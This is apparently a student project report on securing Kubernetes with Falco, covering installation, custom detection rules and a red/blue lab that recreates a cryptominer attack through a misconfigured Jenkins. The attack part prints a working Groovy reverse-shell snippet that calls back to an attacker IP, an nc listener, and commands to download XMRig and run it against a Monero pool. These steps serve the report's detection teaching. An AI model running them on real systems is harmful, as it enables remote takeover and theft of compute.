## Secure a Kubernetes Cluster

### Introduction

We propose to make an overview about ways to build a secure Kubernetes cluster. Our projects is composed of three sessions. The first session will slightly touches most of the issues that can threat the Kubernetes cluster, container and cloud resources these days, <u>from the aspect of development phase, application phase, infrastructure phase and detection phase (Zhu Yilin)</u>. In the second session, we focus on the application of Falco, which is a open source standard tool for continuous risk and threat detection, on Kubernetes,  study what Falco can and cannot do by introducing its components and mechanism. Install Falco and setup simple rules to get start with this tool based on Linux kernel, and practice with the threats including crypto-mining (Qi Jiadun). We also analysis a recent vulnerability in kubernetes (CVE-2022-0492) in session 3 to see its mechanism and how it can be detected by Falco (Li Yonghui).

### Session1 - Overview of Kubernetes Security

### Session2 - Secure Kubernetes Cluster with Falco

#### The overview of Falco

Falco is a de facto (actually being used) tool to detects anomalous behavior or runtime threats in cloud-native environments.

##### What does Falco do

###### Where Falco sits in?

The cloud native security landscape is composed of two portions, prevention and detection. **Prevention** is to change the behavior of an undesired process, like stopping the malicious process etc, tools like *seccomp*, *AppArmor* fit into this domain. While **detection** is to monitor the process and evaluate against a set of rules, and alert the users of the behavior of process, tools like **Falco** and auditd etc. fits in this category. In practice, we need both prevention and detection to secure a cloud native platform, we are going to introduce the use of Falco in this report.

###### What are normal/anomalous behavior?

We can group normal behaviors  into three categories from application's perspective, as follows:

- **Kubernetes components**: kube-apiserver, kube-proxy, kubelet, the **Container Runtime Interface** (**CRI**) plugin, the **Container Networking Interface** (**CNI**) plugin, and so on
- **Self-hosted applications**: Programming language plugin, Java, Golang, Python, and so on
- **Vendor services**: Cassandra, Redis, MySQL, NGINX, Tomcat, and so on

Or, from a system's perspective, we have the following types of activities:

- File activities such as open, read, and write
- Process activities such as execve and clone system calls
- Network activities such as accept, connect, and send

Or, all the Kubernetes activities like configmap, manipulating pods etc. should all be considered as normal.

###### How Falco detect?

Falco detects anomalous behavior based on event resources, which is composed of **system calls** and **Kubernetes audit events**.

- System calls 

  

  Container and its process will do system calls to the kernel, Falco uses a kernel module to tap into the stream of system calls on a machine, and then passes those system calls to a user space (ebpf is recently supported as well). Within the user space, Falco also enriches the raw system call events with more context such as the process name, container ID, container name, image name, and so on. Then check the system calls against the rules loaded in engine and alert if there is violation. 

- Kubernetes audit events

  For Kubernetes audit events, users need to enable the Kubernetes audit policy and register the Kubernetes audit webhook backend with the Falco service endpoint. Then check the events against the rules loaded in engine and alert if there is violation. 

##### What Falco consists of?

Falco is mainly composed of a few components, as follows:

- **Falco rules**: Rules that are defined to detect whether an event is an anomaly.
- **Falco engine**: Evaluate an incoming event with Falco rules and throw an output if an event matches any of the rules.
- **Kernel module/Sysdig libraries**: Tag system call events and enrich them before sending to the Falco engine for evaluation.
- **Web server**: Listen on Kubernetes audit events and pass on to the Falco engine for evaluation.

We demonstrate the architecture and machenism of Falco in the following graph.



##### Limitations of Falco

There are limitations of Falco by design including:

- The Falco only detect the anomalous behavior with **predefined rules and conditions**, it is not clever enough to discover new abnomalities.
- Not all the syscalls should be used for Falco to detect. In reality, security products should only **use very limited resources** to complete tasks. This limits detection capability is constrained to resource limits.  **Falco** uses a **shared buffer between the kernel and userspace** to pass system call information. The shared buffer size is 8MB. When the buffer becomes full, system calls will be dropped and Falco will throw an alert to warn the users.
- **Granularity of detection**: what exactly can you detect? how fine grained our rules are?
- There might be product design or implementation limitations to the **verbosity of an event**, preventing you from getting all the information you need to investigate an incident. In Falco, the output of an event is also defined by the user, who can leverage most of the filters supported in Falco. We can include information like command line, parent process name, file name, username, and login username. However, not well-defined output rules can lead to difficulties in investigating an incident.

#### Start to use Falco

##### Installation

This is a example in Linux kernel.

```shell
curl -s https://falco.org/repo/falcosecurity-3672BA8F.asc | apt-key add -
echo "deb https://download.falco.org/packages/deb stable main" \ | tee -a /etc/apt/sources.list.d/falcosecurity.list
```

Falco needs a driver (the kernel module or the eBPF probe) to work; if a prebuilt driver is not available for your distribution/kernel, Falco needs kernel headers installed on the host to build the driver on the fly. Check if the installed kernel headers match your distribution/kernel:

```shell
uname -r
apt search linux-headers-$(uname -r)
```

Install Falco:

```shell
apt-get update && apt-get install falco -y
```

Start Falco and verify if it's running:

```shell
systemctl start falco
systemctl status falco
```



##### Falco in Docker

There are multiple ways to deploy Falco as a Docker container, depending on your environment.

- Method1: Fully privileged container or a less privileged container (recommended). 
  - We use two container images, the standard Falco container image, which will try to install the driver on the host, and the `no-driver` image, which requires the driver already on the host. 
- Method2: Setting up Falco with a [eBPF driver](https://falco.org/docs/event-sources/drivers/), or running it with no driver; in that case the driver must be installed on the host.

Now we are using the method 1 with containers to demostrate.

###### Step1: Pull the docker

Temporarily use a privileged container to install the driver on the host:

```shell
docker pull falcosecurity/falco-driver-loader:0.31.1
docker run --rm -i -t \
    --privileged \
    -v /root/.falco:/root/.falco \
    -v /proc:/host/proc:ro \
    -v /boot:/host/boot:ro \
    -v /lib/modules:/host/lib/modules:ro \
    -v /usr:/host/usr:ro \
    -v /etc:/host/etc:ro \
    falcosecurity/falco-driver-loader:0.31.1 && echo "Falco drivers installed!"
```



###### Step2: Run Falco in a container with the principle of least privilege

The user in container is able to access only the information and resources that are necessary for its legitimate purpose. The command runs a docker container named `falco_training`. It maps the default port for the Falco web server `8765` from the pod to the localhost.

```shell
docker pull falcosecurity/falco-no-driver:0.31.1
docker run --rm -d \
  --name "falco_training" \
  --security-opt apparmor:unconfined \
  -p 8765:8765 \
  -e HOST_ROOT=/ \
  --cap-add SYS_PTRACE \
  --pid=host $(ls /dev/falco* | xargs -I {} echo --device {}) \
  -v /var/run/docker.sock:/var/run/docker.sock \
  falcosecurity/falco-no-driver:0.31.1 \
  /usr/bin/falco -U
```

###### Step3: Performance Check

Check logs confirm that Falco and its rules have been loaded correctly; and also displays the location of the Falco rules files.



We also need to check if Falco successfully set up the web server to capture K8s events:



Simply trigger a Falco warning using a potentially dangerous command:



##### Falco Installation with Kubernetes

We use Helm to install Falco in Kubernetes, so here is the steps:

###### Step1: Install the Helm chart

Before install Helm chart, add `falcosecurity` charts repository:

```shell
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update
```

Then install the chart.

```shell
helm install falco falcosecurity/falco --set "extraArgs={-U}" --version 1.18.2
```



###### Step2: Check if the pod is running

```shell
kubectl get pods
container=$(kubectl get po | grep falco | cut -c 1-11)
```



Running successfully.



And we can check the port is also available after receiving {status:"OK"}

```shell
kubectl exec "$container" -- curl -s localhost:8765/healthz; echo
```

###### Step3: Check if Falco is working

Simply trigger a Falco warning using a potentially dangerous command:



##### Write customized rules - Unauthorized mount process

A Falco rule must contain the following fields (*required*):

- `rule`: A short, unique name for the rule.
- `condition`: A filtering expression that is applied against events to check whether they match the rule.
- `desc`: A longer description of what the rule detects.
- `output`: Message to output if a matching event occurs. 
- `priority`: The severity of the event (for example, `critical`, `error`, and `warning`).

We can deploy Falco using Helm charts. We have Falco running and it is currently using the default rules.

```shell
kubectl get pods -n falco
```

We can extend Falco rules with our own rules. Let's write a `mount_rules.yaml` to detect all the mount process:

```yaml
customRule:
my_rules: |-
  - rule: Unauthorized mount process
    condition: evt.type=execve and proc.name=mount
    desc: To detect mount process
    priority: warning
    tags: [process, mount]
```

Re-run Falco with your added rule:

```shell
helm upgrade falco falcosecurity/falco -n falco --reuse-values -f mount_rules.yaml
```

Run a mount process for falco new rule to detect and check the log.

```shell
mount --version
kubectl logs --selector app=falco -n falco | grep mount
```

We can detect the mount process in K8s using Falco.

#### Practice: Cryptominer Malware

##### Introduction

A crypto-mining attack on Tesla's Kubernetes cluster occurred in 2018 and was reported by RedLock. Although the attack took place quite a while ago, there are at least two things we can learn from it—the flaw that made the attack possible and the attack patterns.

Among all of the different kinds of *malware*, **Cryptominer attacks** are one of the main threats in *cloud-native* environments. The basic idea under this kind of attack is that you should jointly share your computational resources with the attacker so that he can mine cryptocurrencies at your expense. Other threats are easier to be recognized but in the case of cryptominers, it is hard to discern its activity from that of harmless processes. But there are some last-line defence methods to recognize them:

1. Observe networking activity to specific endpoints (`domain_name`:`port`).
2. Observe resource usage and compare it with a baseline.

And thanks for [sysdig group](https://sysdig.com) to provide such fabulous lab environment.

##### Senario Explanation

1. Somebody deployed Jenkins and:
   - Did not change the default access credentials (`admin`/`admin`)
   - Exposed the admin dashboard to the internet.
2. An attacker might gain full access with these two basic misconfigurations. And then, execute arbitrary code through the *Script Console* using *Groovy*.
3. From here, a **reverse-shell** is executed, and the attacker has full access to execute arbitrary code in the Jenkins container. The cluster node is not compromised, but any code can be executed in this pod.

------

In the next steps, we play the *red* and *blue team* roles to:

- Reproduce a real attack step by step in the K8s cluster
- Detect the intrusion with different last-defense methods

The attacker (red team) executes a **reverse-shell** and the defender (blue team) will explore several open source alternatives to detect and respond to the attack.

##### Steps

###### Step1: Check the pods we are using

```shell
kubectl get pods -A
```



- *Prometheus* is an open-source cloud-native monitoring platform. It includes an instance of `node-exporter` in every node of the *k8s* cluster, which provides elemental node and application metrics (CPU usage, memory, networking, etc.). Access the `prometheus` tab to observe all the available metrics. For example, you can learn more about the *rate of CPU usage per pod*:

```shell
sum (rate (container_cpu_usage_seconds_total{pod!=""}[3m])) by (pod)
```

- *Jenkins* is the leading open-source automation service. This tool helps many teams to build, test, and deploy software.

In this training, a misconfigured instance of *Jenkins* is being used as the entry point to run a crypto-miner in the *Jenkins* pod.

###### Step2: Attack

- 1. Launch a reverse shell

     Use the terminal in the left to launch the attack. From here, retrieve the IP of the machine. It will be required to connect to the [*reserve shell*](https://play.instruqt.com/embed/sysdig/tracks/falco-prometheus-cryptomining-detect/challenges/exploit-the-vuln/assignment) running in the attacker machine:

  ```shell
  ATTACKER_IP=$(ip route get 1 |awk '{print $7}')
  echo $ATTACKER_IP
  ```

  2. Copy the value for later use. After this, launch a reverse shell listening on port *4242* with:

  ```shell
  nc -nlvp 4242
  ```

  

  3. Login Jenkins, retrieve and edit the exploit snippet by modifying the `String host` value with the *IP* in the previous step.

     ```shell
     String host="10.132.1.157";
     int port=4242;
     String cmd="bash";
     Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
     ```

  ###### Step3: Install a cryptominer

  1. Test that if we can execute any command and access the whole file system in the pod.

```shell
apt remove curl -y
apt install curl -y
```

	2. Download, install and run crypto miner.  (For now, the lab enviroment is down and safety concerns, we didn't actually run the attack, we demostrate the way to detect and defense in the following steps).

```shell
curl -OL https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz
tar -xvf xmrig-6.16.4-linux-static-x64.tar.gz
cd xmrig-6.16.4
./xmrig --donate-level 8 -o xmr-us-east1.nanopool.org:14433 -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero --background
```

###### Step3: Detection for abnormal activity

1. Detect outbound connections to common miner pool ports

   The predifined condition `net_miner_pool`, `trusted_images_query_miner_domain_dns` is continously updating by the community, adding new malicious IP/Ports into it using Macro methods.

   ```yaml
   # The rule is disabled by default.
   # Note: Falco will send DNS requests to resolve miner pool domains which may trigger alerts in your environment.
   - rule: Detect outbound connections to common miner pool ports
     desc: Miners typically connect to miner pools on common ports.
     condition: net_miner_pool and not trusted_images_query_miner_domain_dns
     enabled: true
     output: Outbound connection to IP/Port flagged by cryptoioc.
   ch (command=%proc.cmdline port=%fd.rport ip=%fd.rip
   container=%container.info image=%container.image.repository)
     priority: CRITICAL
     tags: [network, mitre_execution]
   ```

   If there is a crypto-mining process running and communicating to the miner domains defined in the list, the alert will be triggered:

   ```bash
   Critical Outbound connection to IP/Port flagged by cryptoioc.ch (command=minerd2 -a cryptonight -o stratum+tcp://monero.crypto-pool.fr:3333 -u 49TfoHGd6apXxNQTSHrMBq891vH6JiHmZHbz5Vx36nLRbz6WgcJunTtgcxno G6snKFeGhAJB5LjyAEnvhBgCs5MtEgML3LU -p x port=3xxx0 ip=xxx.xxxx.x.x container=k8s.ns=insecure-nginx k8s.pod=insecure-nginx-8455b6d49c-z6wb9 container=07dce07d5100 image=kaizheh/victim) k8s.ns=insecurez-nginx k8s.pod=insecure-nginx-8455b6d49c-z6wb9 container=07dce07d5100 k8s.ns=insecure-nginx k8s.pod=insecure-nginx-8455b6d49c-z6wb9 container=07dce07d5100
   ```

   If there is an alert generated by this rule, you should address it as high-priority. However, you will have to keep the mining domain and mining ports updated or there can be new malicious IP/Port not on the list can harm the cluster.

2. White list approach

   On the contrary to the first approach, we can create Falco rules to alert any outbound connection's destination IPs or ports that are not on the whitelist. 

   ```yaml
   - list: trusted_server_addresses
     items: [trustedIP1, trustedIP2, ...]
   - list: trusted_server_ports
     items: [trustedPort1, trustedPort2, ...]
   - rule: Detect anomalous outbound connections
     desc: Detect anomalous outbound connections
     condition: (evt.type in (sendto, sendmsg) and container and evt.dir=< and (fd.net != "127.0.0.0/8" and not fd.snet in (trusted_server_addresses) or not fd.sport in (trusted_server_
   ports)))
     output: Outbound connection to anomalous IP/Port(command=%proc.cmdline port=%fd.rport ip=%fd.rip container=%container.info image=%container.image.repository)
     priority: CRITICAL
   ```

3. Use *Prometheus* Query to monitor the resource usage

   While *Falco* observes runtime activity to detect abnormal behaviour in the system, *Prometheus* monitors main metrics of the system that can provide valuable information to detect an attack of this kind. Since we didn't actually run the attack, so we can see the CPU utilization is fine now. We will demonstrate some queries to help us check resource usage in the K8s cluster.

   i) CPU usage

   ```sql
   sum by(namespace, pod, container) (rate(container_cpu_usage_seconds_total{container!="POD",image!=""}[5m]))
   ```

   

   

​		ii) Observe the increase in the number of pods

```sql
100 * avg_over_time(sum by (namespace) (kube_pod_info)[15m:15m]) / avg_over_time(sum by (namespace) (kube_pod_info)[15m:15m] offset 5m)
```



​		iii) Compare recent usage with a previous baseline of use. Check if there is a significant increase in the percentage of CPU usage compared with yesterday.		

```sql
100 * avg_over_time(sum by (namespace)(rate(container_cpu_usage_seconds_total{container!="POD",container!=""}[5m]))[15m:15m]) / avg_over_time(sum by (namespace)(rate(container_cpu_usage_seconds_total{container!="POD",container!=""}[5m]))[15m:15m] offset 5m)
```



​		iv) Percentage of CPU usage per workload

```shell
sum (rate (container_cpu_usage_seconds_total{container=~".+"}[15m]))
by (container) /  ignoring (container) group_left
sum( machine_cpu_cores{}) * 100
```

